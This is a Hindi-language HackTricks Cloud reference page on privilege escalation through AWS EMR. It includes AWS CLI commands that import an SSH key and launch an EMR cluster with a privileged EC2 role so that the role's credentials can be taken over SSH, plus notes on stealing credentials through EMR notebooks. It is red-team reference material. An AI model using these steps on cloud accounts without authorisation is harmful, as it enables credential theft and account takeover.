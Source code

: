 # AWS - EMR Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## EMR

EMR के बारे में अधिक **जानकारी**:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

इन अनुमतियों के साथ एक हमलावर **नया EMR क्लस्टर चला सकता है EC2 रोल्स को जोड़ते हुए** और उसकी साख प्राप्त करने की कोशिश कर सकता है।\
ध्यान दें कि इसके लिए आपको **खाते में आयातित कुछ ssh प्राइवेट की जानने की आवश्यकता होगी** या एक की आयात करनी होगी, और **मास्टर नोड में पोर्ट 22 खोलने में सक्षम होना चाहिए** (आप इसे `--ec2-attributes` के अंदर `EmrManagedMasterSecurityGroup` और/या `ServiceAccessSecurityGroup` गुणों के साथ कर सकते हैं)।
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
ध्यान दें कि `--service-role` में **EMR भूमिका** और `--ec2-attributes` में **ec2 भूमिका** `InstanceProfile` के अंदर निर्दिष्ट की गई है। हालांकि, यह तकनीक केवल EC2 भूमिका की साख (credentials) चुराने की अनुमति देती है (क्योंकि आप ssh के माध्यम से जुड़ेंगे) लेकिन EMR IAM भूमिका की नहीं।

**संभावित प्रभाव:** EC2 सेवा भूमिका के लिए Privesc जो निर्दिष्ट है।

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

इन अनुमतियों के साथ एक हमलावर **AWS कंसोल** पर जा सकता है, एक नोटबुक बना सकता है और उसे एक्सेस करके IAM भूमिका चुरा सकता है।

{% hint style="danger" %}
यहां तक कि अगर आप नोटबुक इंस्टेंस में IAM भूमिका जोड़ते हैं, मेरे परीक्षणों में मैंने देखा कि मैं AWS प्रबंधित साख चुरा सकता हूं और IAM भूमिका से संबंधित साख नहीं।
{% endhint %}

**संभावित प्रभाव:** AWS प्रबंधित भूमिका arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile के लिए Privesc

### `elasticmapreduce:OpenEditorInConsole`

केवल इस अनुमति के साथ एक हमलावर **Jupyter नोटबुक एक्सेस कर सकता है और उससे जुड़ी IAM भूमिका चुरा सकता है**।\
नोटबुक का URL है `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
यहां तक कि अगर आप नोटबुक इंस्टेंस में IAM भूमिका जोड़ते हैं, मेरे परीक्षणों में मैंने देखा कि मैं AWS प्रबंधित साख चुरा सकता हूं और IAM भूमिका से संबंधित साख नहीं।
{% endhint %}

**संभावित प्रभाव:** AWS प्रबंधित भूमिका arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile के लिए Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>शून्य से हीरो तक</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
